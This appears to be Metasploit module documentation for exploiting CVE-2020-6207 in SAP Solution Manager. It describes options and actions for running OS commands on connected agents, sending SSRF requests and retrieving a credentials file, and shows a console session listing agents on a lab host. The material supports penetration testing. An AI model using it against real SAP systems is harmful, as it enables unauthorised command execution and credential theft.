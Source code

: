 
## Options

### TARGETURI

This is the path to the EEM admin page of the SolMan that is vulnerable to CVE-2020-6207.
By default, it is set to `/EemAdminService/EemAdmin`. However, it can be changed if SolMan
was installed at a path different from that of the web root. For example, if the SolMan
server was proxied to the `/solman/` path under the web root, then this value would be
set to `/solman/EemAdminService/EemAdmin`.

### AGENT

Connected agent sever name.
Example: `linux_agent`

### SSRF_METHOD

HTTP method for sending HTTP request from a connected agent, the server name of which is specified in the `AGENT` option.
Example: `GET`

### SSRF_URI

URI for sending HTTP requests from a connected agent, the server name of which is specified in the `AGENT` option.
Example: `http://1.1.1.1/test.html`

### COMMAND

OS command for executing in connected agent, the server name of which is specified in the `AGENT` option.
Example: `ping -c 4 1.1.1.1`

## Actions
```
   Name      Description
   ----      -----------
   EXEC      Exec OS command on connected agent
   LIST      List connected agents
   SECSTORE  Get file with SolMan credentials from connected agent
   SSRF      Send SSRF from connected agent
```

## Scenarios

### Vulnerable SolMan 7.2 running on agent: test_linux with OS: Linux and java version: 1.8

```
msf > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf > use auxiliary/admin/sap/cve_2020_6207_solman_rce
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > set ACTION LIST
ACTION => LIST
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > set RHOST 172.16.30.46
RHOST => 172.16.30.46
msf auxiliary(admin/sap/cve_2020_6207_solman_rce) > run
[*] Running module against 172.16.30.46

[*] Getting a list of agents connected to the Solution Manager: 172.16.30.46
[+] Successfully retrieved agent list:
```

[1]: https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf
[2]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[3]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/